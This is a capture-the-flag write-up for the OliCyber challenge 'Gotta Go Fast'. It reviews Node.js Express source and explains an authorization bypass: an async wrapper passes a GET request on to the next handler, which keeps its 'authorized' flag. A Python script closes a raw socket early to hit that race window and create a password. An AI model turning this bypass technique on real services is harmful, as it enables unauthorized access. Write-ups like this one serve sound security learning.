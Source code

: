 #nodejs #misc 
# m0le23 - Gotta Go Fast
## Description
Check out my new security proxy
Site: http://gottagofast.challs.olicyber.it
## Overview
The source code reveals that there is only the endpoint `/service` available:
- POST `/service?newPassword=` lets create a password (20 chars min), but only if **authorized**
- GET `/service?password=` checks if the password exists, if not returns `INVALID PASSWORD`
- DELETE `/service?password=` deletes the password
## Road to flag
It's not clear where the flag is, but I presume the app returns it if we are able to create a valid password.
In order to do so we have to get authorization in some way.
## Code review

The app is really simple:
```js
const httpRequest = async (method, req, res) => {
  if (res.locals.authorized) {
    return await (
      await fetch(SERVICE_URL + req.originalUrl, {
        method,
      })
    ).text();
  } else {
    return 'NOT AUTHORIZED';
  }
};
// Example: GET /service?password=MY_PASSWORD (using a valid password)
app.get(
  '/service',
  expressAsyncWrapper(async (req, res) => {
    res.locals.authorized = true; // Is a GET request
    const response = await httpRequest('GET', req, res);
    res.json(response);
  })
);
// Example: POST /service?newPassword=MY_PASSWORD (to add a password, min 20 chars)
// Example: DELETE /service?password=MY_PASSWORD (to delete a password)
app.use(  '/service',
  expressAsyncWrapper(async (req, res) => {
    // POST and DELETE require a valid token
    if (req.query.password === TOKEN)   res.locals.authorized = true;
    const method = req.method === 'DELETE' ? 'DELETE' : 'POST'; // Default to POST
    const response = await httpRequest(method, req, res);
    res.json(response);
  })
);
```

`expressAsyncWrapper` is defined as follows:
```js
export default (fn) => (req, res, next) => {
  (async () => {
    try {
      let nextCalled = false;
      const n = (err) => {
        nextCalled = true;
        next(err);
      };
      await fn(req, res, n);
      if (!nextCalled && !res.headersSent) n();
    } catch (error) {
      next(error);
    }
  })();
};
```

The bug is in the middleware: by calling `n()`, the request proceeds to the next middleware even when no error has occurred.
So by requesting `GET /service`, `res.locals.authorized` will be set to `true`; then the request proceeds to the next middleware (`app.use(  '/service',`) bypassing the access control because this code will be useless `if (req.query.password === TOKEN)   res.locals.authorized = true;` as `res.locals.authorized` is already `true`.

But how could this statement `if (!nextCalled && !res.headersSent) n();` be evaluated to true? Or better, how can I enter the race window when `res.headersSent` hasn't been set?

## Exploit

Solution: close the connection just before the headers are sent:
```python
import socket
import requests
import secrets
import time

psw = secrets.token_hex(20)
host = "gottagofast.challs.olicyber.it"
port = 80

request = f"""GET /service?newPassword={psw} HTTP/1.1
Host: {host}
Connection: keep-alive

"""
# exploit race condition
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((host, port))
sock.sendall(request.encode())
time.sleep(0.1)
sock.close()
print("[+] sock closed")
# get the flag
r = requests.get(f"http://{host}:{port}/service?password={psw}")
print(r.text)
```